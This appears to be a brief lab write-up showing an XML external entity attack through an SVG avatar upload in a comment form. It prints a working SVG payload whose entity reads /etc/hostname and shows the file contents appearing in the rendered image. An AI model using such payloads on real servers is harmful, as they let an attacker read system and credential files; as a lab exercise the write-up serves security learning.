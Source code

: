 ## Overview  
This lab has comment form. This form has upload function and this accepts svg file. SVG is short for “Scalable Vector Graphics”.
It's a XML based two-dimensional graphic file format.When i upload the SVG file, the server doesn't verify the content of file So, I can embedd malicious command
into the svg file  
***a.svg***  
```<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY abc SYSTEM "file:///etc/hostname">]>
<svg width="300px" height="300px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="23" x="8" y="28">&abc;</text>
</svg>
```  
***Upload function***
![image](https://user-images.githubusercontent.com/22276823/127726182-f18fd945-0f03-4b2b-9ee5-9884792fdb42.png)  

After upload, we can see the image is used to avatar  
![image](https://user-images.githubusercontent.com/22276823/127726202-61c001d6-e3e7-442b-9e76-d11209e1323a.png)  

Open image, we can see the content of file that we embbed into svg  
![image](https://user-images.githubusercontent.com/22276823/127726228-be0cd6af-152e-499e-bd21-a33e82032d66.png)


